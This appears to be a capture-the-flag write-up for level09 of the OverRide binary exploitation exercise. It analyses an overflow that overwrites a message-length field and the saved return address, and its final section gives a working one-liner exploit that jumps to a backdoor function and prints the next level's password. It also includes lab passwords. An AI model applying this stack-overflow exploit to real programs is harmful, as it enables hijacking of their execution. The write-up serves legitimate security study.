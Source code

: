 # Overwrite RIP and jump to `secret_backdoor()`

```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level09
           ____                  ____  _     __
          / __ \_   _____  _____/ __ \(_)___/ /__
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level09@192.168.56.101's password: fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
```

The program contains `secret_backdoor()` function which reads in at most 127 characters from `stdin` and stores them into the buffer pointed to by `command`. Then it executes  a command specified in `command` by calling `/bin/sh -c command`,

At first glance, return address must be overwritten in order to redirect flow of the program into `secret_backdoor()` function.

The function `set_msg()` calls `fgets` which reads 1024 bytes into the buffer of 128 bytes.

Then it copy at most len characters `buffer+180`, from source `str` into destination `buffer`.
```gdb
   0x5555555549a2 <set_msg+112>:	mov    rax,QWORD PTR [rbp-0x408]
=> 0x5555555549a9 <set_msg+119>:	mov    eax,DWORD PTR [rax+0xb4]
   0x5555555549af <set_msg+125>:	movsxd rdx,ea
```
The value of message length, `buffer+180` can be overwirtten using `username`.
With a large message there is possibility to overwrite saved RIP of `handle_msg()`

To find offset, calculate difference between `savedRIP` and the `buffer`:
```gdb
[...]
>: Enter your username
>>: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
>: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
�>: Msg @Unix-Dude
>>: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
[...]
Breakpoint 7, 0x0000555555554924 in handle_msg ()
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffe580:
 rip = 0x555555554924 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe590
 Arglist at 0x7fffffffe570, args:
 Locals at 0x7fffffffe570, Previous frame's sp is 0x7fffffffe580
 Saved registers:
  rbp at 0x7fffffffe570, rip at 0x7fffffffe578
gdb-peda$
gdb-peda$ x/64wx 0x7fffffffe4b0
0x7fffffffe4b0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4c0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4d0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4e0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4f0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe500:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe510:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe520:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe530:	0x42424242	0x42424242	0x42424242	0x41414141
0x7fffffffe540:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe550:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe560:	0x0a414141	0x0000008c	0xffffe580	0x00007fff
0x7fffffffe570:	0xffffe580	0x00007fff	0x55554abd	0x00005555
0x7fffffffe580:	0x00000000	0x00000000	0xf7a3d7ed	0x00007fff
0x7fffffffe590:	0x00000000	0x00000000	0xffffe668	0x00007fff
0x7fffffffe5a0:	0x55554000	0x00000001	0x55554aa8	0x00005555
gdb-peda$ p/d 0x7fffffffe578-0x7fffffffe4b0
$33 = 200
gdb-peda$
```
```gdb
gdb-peda$ print secret_backdoor
$35 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```
By overwritting message length byte and using offset followed by the address of `secret_backdoor()` function, the flow of program can be modified.


## Exploit
```shell
level09@OverRide:~$ (python -c "import struct; print('\xff'*50 + '\n' + '\x55'*200 + struct.pack('Q', 0x55555555488c))"; echo 'cat /home/users/$(whoami)/.pass') | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, >: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)
```
